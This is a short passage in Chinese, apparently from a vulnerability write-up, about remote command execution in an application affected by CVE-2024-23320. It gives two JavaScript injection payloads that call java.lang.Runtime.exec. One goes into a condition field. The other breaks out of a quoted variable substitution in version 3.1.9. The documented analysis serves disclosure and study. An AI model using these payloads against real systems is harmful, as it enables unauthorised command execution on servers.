 [![](assets/1709531007-22eb14d177feba5a339ebe8869563f82.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301115706-c4f6fce6-d77f-1.png)

在`条件`中输入 Payload：

```bash
var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec("touch /tmp/rce")};
```

3、创建成功之后运行即可，会发现命令执行成功，在/tmp 临时目录下生成文件：

## CVE-2024-23320

现在再来看看 3.1.9 版本，直接执行会抛出异常，但可以通过其他方式来执行任意的 JS 代码。前面说到过，generateContentWithTaskParams 方法会将类似${a}这种形式的字符串替换调，即在全局或者传入的参数中寻在 a 变量对应的值，然后将${a}替换成"a 对应的值"。

所以这里只需要在传入的变量中将变量 a 指定成 js 代码即可，Payload 如下：

```bash
";var a = mainOutput(); function mainOutput() { var x=java.lang.Runtime.getRuntime().exec("touch /tmp/rce")};//
```

这里闭合一下"然后拼接同样可以达到命令执行的目的：

